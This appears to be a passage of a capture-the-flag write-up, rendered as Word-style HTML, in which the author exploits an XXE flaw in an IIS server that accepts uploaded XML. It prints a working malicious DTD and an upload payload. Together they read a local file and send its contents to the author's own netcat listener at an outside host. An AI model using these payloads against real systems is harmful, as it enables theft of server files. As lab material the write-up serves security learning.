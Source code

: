                                                                                 <p class="MsoListParagraphCxSpFirst" style="text-indent: -.25in; mso-list: l7 level1 lfo7;"><span style="mso-bidi-font-family: Tahoma; mso-bidi-theme-font: minor-latin;"><span style="mso-list: Ignore;"> 1. </span></span>We have an ISS server listening on 10.142.0.13:80</p>
                                                                                <p class="MsoListParagraphCxSpLast" style="text-indent: -.25in; mso-list: l7 level1 lfo7;"> 2. The system accepts and processes XML data uploaded via a form</p>
                                                                                <p class="MsoNormal">Using an attack vector <a href="https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities">described similarly from the sans.org pen test blog</a>, I decided to craft a XXE exploit.</p>
                                                                                <p class="MsoNormal">First, I crafted a special DTD hosted on a webserver under my control. Inside of the DTD we describe the data on which we want obtain (in this case, C:\greatbook.txt). We also create an entity inception line that will send the contents of the specified file to a defined URI. In my case, I had it send it to a netcat listener I had listening on port 55779.</p>
                                                                                <pre class="MsoFooter" style="margin-left: .5in;"><span style="font-size: 12.0pt;">&lt;?xml version="1.0" encoding="UTF-8"?&gt;</span>
                                                                                <span style="font-size: 12.0pt;">&lt;!ENTITY % stolendata SYSTEM "file:///C:/greatbook.txt"&gt;</span>
                                                                                <span style="font-size: 12.0pt;">&lt;!ENTITY % inception "&lt;!ENTITY &amp;#x25; sendit SYSTEM 'http://&lt;MY-IP&gt;:55779/?%stolendata;'&gt;"&gt;</span></pre>
                                                                                <p class="MsoFooter" style="margin-left: .5in;"><span style="font-size: 12.0pt;"> </span></p>
                                                                                <p class="MsoNormal">With my DTD crafted, I then crafted an XML document to<br />upload. This XML document loads my crafted DTD file and executes the inception.</p>
                                                                                <pre class="MsoFooter" style="margin-left: .5in;"><span style="font-size: 12.0pt;">&lt;?xml
                                                                                 version="1.0" encoding="utf-8"?&gt;</span>

                                                                                 <span style="font-size: 12.0pt;">&lt;!DOCTYPE
                                                                                  demo [</span>

                                                                                  <span style="font-size: 12.0pt;"><span style="mso-spacerun: yes;">    </span>&lt;!ELEMENT demo ANY &gt;
                                                                                  </span><span style="font-size: 12.0pt;"><span style="mso-spacerun: yes;">    </span>&lt;!ENTITY % extentity SYSTEM "http://10.142.0.3:55779/elf.dtd"&gt;</span>
                                                                                  <span style="font-size: 12.0pt;"><span style="mso-spacerun: yes;">    </span>%extentity;</span>
                                                                                  <span style="font-size: 12.0pt;"><span style="mso-spacerun: yes;">    </span>%inception;</span>
                                                                                  <span style="font-size: 12.0pt;"><span style="mso-spacerun: yes;">    </span>%sendit;</span>
                                                                                  <span style="font-size: 12.0pt;"><span style="mso-spacerun: yes;">    </span>]</span>
                                                                                  <span style="font-size: 12.0pt;">&lt; </span>
                                                                                  <span style="font-size: 12.0pt;">&lt;Elf&gt;</span>
                                                                                  <span style="font-size: 12.0pt;"><span style="mso-tab-count: 1;">         </span>&lt;ElfID&gt;1&lt;/ElfID&gt;</span>
                                                                                  <span style="font-size: 12.0pt;"><span style="mso-tab-count: 1;">         </span>&lt;ElfName&gt;Elf in a Site&lt;/ElfName&gt;</span>
                                                                                  <span style="font-size: 12.0pt;"><span style="mso-tab-count: 1;">         </span>&lt;Contact&gt;8675309&lt;/Contact&gt;</span>
                                                                                  <span style="font-size: 12.0pt;"><span style="mso-tab-count: 1;">         </span>&lt;DateOfPurchase&gt;11/29/2017 12:00:00 AM&lt;/DateOfPurchase&gt;</span>
                                                                                  <span style="font-size: 12.0pt;"><span style="mso-tab-count: 1;">         </span>&lt;Picture&gt;1.png&lt;/Picture&gt;</span>
                                                                                  <span style="font-size: 12.0pt;"><span style="mso-tab-count: 1;">         </span>&lt;Address&gt; 123 &lt;/Address&gt;</span>
                                                                                  <span style="font-size: 12.0pt;">&lt;/Elf&gt;</span></pre>
                                                                                  <p class="MsoFooter" style="margin-left: .5in;"><span style="font-size: 12.0pt;"> </span></p>